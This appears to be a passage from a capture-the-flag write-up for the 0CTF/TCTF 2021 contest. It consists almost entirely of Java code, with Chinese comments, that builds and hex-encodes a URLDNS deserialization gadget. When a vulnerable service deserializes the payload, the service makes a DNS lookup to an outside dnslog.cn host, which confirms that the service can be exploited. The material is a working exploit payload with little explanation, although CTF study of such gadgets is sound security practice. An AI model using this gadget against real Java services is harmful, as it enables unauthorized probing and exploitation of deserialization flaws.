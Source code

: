 dnslog

```java
System.out.println(objectToHexString(urldns()));

public static Object urldns() throws Exception {
        HashMap<URL, String> hashMap = new HashMap<URL, String>();
        //URL对象传入自己测试的dnslog
        URL url = new URL("http://2ihodi.dnslog.cn");
        //反射获取 URL的hashcode方法
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        //使用内部方法 设置允许访问
        f.setAccessible(true);
        // put 一个值的时候就不会去查询 DNS，避免和刚刚混淆
        f.set(url, 123);
        hashMap.put(url, "Firebasky");
        // hashCode 这个属性放进去后设回 -1, 这样在反序列化时就会重新计算 hashCode
        f.set(url, -1);
        return hashMap;
    }

public static String objectToHexString(Object obj) throws Exception {
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream out = null;
        out = new ObjectOutputStream(bos);
        out.writeUTF("0CTF/TCTF");
        out.writeInt(2021);
        out.writeObject(obj);
        out.flush();
        byte[] bytes = bos.toByteArray();
        bos.close();
        String hex = bytesTohexString(bytes);
        return hex;
    }
    public static String bytesTohexString(byte[] bytes) {
        if (bytes == null) {
            return null;
        } else {
            StringBuilder ret = new StringBuilder(2 * bytes.length);

            for(int i = 0; i < bytes.length; ++i) {
                int b = 15 & bytes[i] >> 4;
                ret.append("0123456789abcdef".charAt(b));
                b = 15 & bytes[i];
                ret.append("0123456789abcdef".charAt(b));
            }

            return ret.toString();
        }
    }
```
